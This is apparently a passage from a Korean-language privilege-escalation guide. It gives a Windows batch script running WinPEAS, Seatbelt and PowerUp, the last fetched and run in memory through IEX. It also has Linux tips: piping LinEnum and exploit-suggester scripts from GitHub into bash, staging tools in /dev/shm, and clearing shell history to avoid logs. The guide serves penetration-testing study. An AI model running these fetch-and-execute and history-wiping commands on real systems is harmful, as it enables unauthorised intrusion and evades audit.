 ```cmd
:: Windows 도구들 순차 실행 스크립트
@echo off
echo Starting comprehensive Windows enumeration...

echo [+] Running WinPEAS...
winPEAS.exe > winpeas_results.txt 2>&1

echo [+] Running Seatbelt...
Seatbelt.exe -group=all > seatbelt_results.txt 2>&1

echo [+] Running PowerUp...
powershell -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks" > powerup_results.txt 2>&1

echo [+] Combining results...
echo === WinPEAS Results === > combined_windows_results.txt
type winpeas_results.txt >> combined_windows_results.txt
echo. >> combined_windows_results.txt
echo === Seatbelt Results === >> combined_windows_results.txt
type seatbelt_results.txt >> combined_windows_results.txt
echo. >> combined_windows_results.txt
echo === PowerUp Results === >> combined_windows_results.txt
type powerup_results.txt >> combined_windows_results.txt

echo [+] Enumeration complete. Check combined_windows_results.txt
```

## 👀 놓치기 쉬운 것들

### 🚨 자동화 도구의 한계점들

```bash
# 1. 네트워크 연결 제한시 로컬 도구 사용
# 사전에 도구들을 준비해둔 디렉토리
ls -la /opt/privilege-escalation-tools/
# LinPEAS, LinEnum, linux-exploit-suggester 등 로컬 저장

# 2. 실행 권한 없는 환경
# 스크립트 내용을 직접 복사하여 실행
curl -s https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

# 3. 쓰기 권한 없는 환경
# /tmp나 /dev/shm 사용
cd /dev/shm && wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh

# 4. 바이너리 실행 제한 환경
# 스크립트 기반 도구만 사용
bash <(curl -s https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

# 5. 로그 남기지 않기
# 히스토리 비활성화 후 실행
unset HISTFILE
./linpeas.sh
history -c
```
